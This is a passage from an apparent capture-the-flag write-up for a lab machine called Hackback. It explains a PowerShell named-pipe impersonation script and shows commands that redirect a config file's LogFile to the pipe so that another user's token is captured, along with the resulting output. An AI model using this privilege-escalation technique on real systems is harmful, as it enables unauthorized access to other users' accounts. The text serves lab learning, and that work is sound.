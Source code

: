 size ![image*](/img/1551794932124.png)

So the red section creates the pipe and waits for a connection. The blue
section sets up impresonation as the connecting user, and shows that it
can execute commands as the connecting user. The green section grabs the
token of that user, which it tries to use to create a process as that
user in the pink section. The yellow section is cleanup on the pipe.

I will I upload this to hackback. Then I'll tell `clean.ini` that the
`LogFile` is `\\.\pipe\dummypipe` so that the user will write to it.
Then I'll run the ps1:



    PS hackback\simple@HACKBACK scripts> echo "[Main]`nLifeTime=100`nLogFile=\\.\pipe\dummypipe`nDirectory=c:\inetpub\logs\logfiles" > \util\scripts\clean.ini                                                                            
    PS hackback\simple@HACKBACK scripts> . \windows\system32\spool\drivers\color\df.ps1
    Waiting for connection on namedpipe:dummypipe
    ImpersonateNamedPipeClient: 1
    user=HACKBACK\hacker
    OpenThreadToken:True
    True
    CreateProcessWithToken: False  1058 
